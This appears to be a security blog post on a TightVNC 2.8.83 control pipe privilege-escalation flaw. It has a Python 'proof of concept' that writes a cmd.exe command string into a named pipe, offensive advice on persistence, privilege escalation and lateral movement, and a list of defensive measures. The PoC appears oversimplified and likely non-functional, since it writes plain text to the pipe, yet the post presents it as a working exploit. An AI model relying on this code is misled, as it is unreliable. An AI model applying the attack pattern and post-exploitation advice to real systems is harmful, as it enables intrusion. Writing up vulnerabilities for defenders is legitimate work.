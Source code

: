```yaml
---
title: "TightVNC 2.8.83 - Control Pipe Manipulation"
date: 2025-06-09
categories: [Hacking Blog]  
tags: [vulnerability, exploit, offensive-security, vnc]
layout: post
image:
  path: ./assets/images/post-cover/tightvnc-exploit.png
---
```



## Summary

TightVNC 2.8.83 - Control Pipe Manipulation.

## Technical Analysis

# Technical Executive Summary

The recently disclosed vulnerability in TightVNC 2.8.83, specifically identified as a Control Pipe Manipulation flaw, poses a significant risk to systems utilizing this version of the remote desktop software. This local vulnerability allows an attacker with access to the system to manipulate control pipes used by the TightVNC service. By exploiting this flaw, an adversary can potentially escalate their privileges or execute arbitrary commands within the context of the TightVNC service, which may run with elevated permissions. Given the widespread use of TightVNC in remote management and support scenarios, it is crucial for organizations to address this vulnerability promptly to prevent unauthorized access and potential system compromise.

# Code Example

Below is a Proof of Concept (PoC) demonstrating how an attacker might exploit the Control Pipe Manipulation vulnerability in TightVNC 2.8.83. This example assumes local access to the target machine.

```python
import os
import subprocess

# Path to the control pipe used by TightVNC
control_pipe_path = "\\\\.\\pipe\\TightVNCControlPipe"

# Command to execute via the control pipe
malicious_command = "cmd.exe /c echo Exploited > C:\\exploited.txt"

def exploit_control_pipe(pipe_path, command):
    try:
        # Attempt to write to the control pipe
        with open(pipe_path, 'w') as pipe:
            pipe.write(command)
            print(f"Command sent to control pipe: {command}")
    except Exception as e:
        print(f"Failed to exploit control pipe: {e}")

if __name__ == "__main__":
    if os.path.exists(control_pipe_path):
        exploit_control_pipe(control_pipe_path, malicious_command)
    else:
        print("Control pipe not found. Ensure TightVNC is running.")

```

# Offensive Security Insights

Exploitation of this vulnerability requires local access to the system where TightVNC is installed. The attacker must identify the named pipe used for control operations. Once located, the adversary can inject arbitrary commands into the control pipe, leveraging the permissions under which the TightVNC service operates. This vulnerability is particularly dangerous if TightVNC is running with administrative privileges, as it can lead to full system compromise.

Attackers can enhance their exploitation techniques by:

1. **Persistence**: Once command execution is achieved, adversaries can establish persistence by creating scheduled tasks or modifying startup scripts.
2. **Privilege Escalation**: If the service runs with elevated privileges, attackers can leverage this to escalate their access level on the system.
3. **Lateral Movement**: Exploiting this vulnerability on one system could be used as a foothold for moving laterally within a network, especially if TightVNC is used across multiple machines.

# Defensive Measures

To mitigate the risks associated with this vulnerability, organizations should implement the following defensive measures:

1. **Patch Management**: Upgrade TightVNC to the latest version where this vulnerability is addressed. Regularly apply security patches to all software components.
2. **Access Controls**: Restrict local access to systems running TightVNC. Implement least privilege principles to minimize the impact of potential exploitation.
3. **Monitoring and Logging**: Enable detailed logging of system and application events to detect any unauthorized access attempts. Monitor named pipe activity for suspicious behavior.
4. **Network Segmentation**: Isolate systems running TightVNC from critical network resources to limit the impact of a potential breach.
5. **User Education**: Train users to recognize and report suspicious activities that may indicate exploitation attempts.

By proactively addressing this vulnerability and implementing robust security practices, organizations can significantly reduce their exposure to potential attacks leveraging the TightVNC Control Pipe Manipulation flaw.

📎 [Original Source](https://www.exploit-db.com/exploits/52322)

---

_This article was written by sleep33._
